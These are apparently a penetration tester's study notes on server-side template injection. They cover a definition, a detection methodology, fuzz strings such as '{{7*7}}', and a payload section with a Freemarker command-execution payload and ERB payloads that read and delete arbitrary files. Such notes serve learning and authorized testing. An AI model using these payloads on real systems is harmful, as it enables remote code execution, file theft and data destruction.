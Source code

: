 # Extra Resources
- [SSTI Playlist - Seven Seas Security](https://www.youtube.com/playlist?list=PL1GDzLoRwyVCEG_dnWcQDbDXJSBw7lTOT)
- [James Kettle Presentation](https://portswigger.net/research/server-side-template-injection)
- [Hacktricks - SSTI Payloads](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [Gadgets for payloads - SSTI PwnFunction Video](https://www.youtube.com/watch?v=SN6EVIG4c-0)
# What it is
When an attacker can inject a malicious payload through the native template language and it is executed by the server
This happens because user input is concatenated into the template instead of being passed as data
# Context
- Plaintext context
- Code context
# Reconnaissance - Where to find
# Methodology
- Look for user controlled input that is reflected
- Enumerate the template engine being used by testing with multiple payloads
- If the previous step didn't work, try to trigger an error that discloses useful information
- Exploit
## Detect
Fuzz with special characters frequently used in template expressions: 
```
${{<%[%'"}}%\
<%=foobar%>
<%= 7*7 %>
{7*7}
#{7*7}
${7*7}
{{7*7}}
${{7*7}}
[% 7*7 %]
```
Use context-specific approaches:
    - Plaintext context
    - Code context
## Identify
![SSTI Payload Tests](Screenshots/SSTIPayloadTests.png)
- Make the application generate an error. This may disclose useful information to enumerate the template engine being used
# Some Payloads
## Craft payload
Some of these payload may need to be prepended with appropriate characters so they close the template engine syntax correctly. E.g.: `}}`
Some of these payload may need to be url encoded
Use a public payload
For more specific payloads view the resources at the top (Hacktricks and James Kettle's presentation)
## Freemarker
```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```
## ERB Ruby
```ruby
<%= Dir.entries('/').join(', ') %>
<%= Dir.glob('**file-name').first %>
<%= File.read('/file/path') %>
<%= File.delete('/file/path') %>
```
## Tornado
Generic
```
data}}{{payload-1}}{{payload-2}}
```
For specific payloads see Hacktricks 
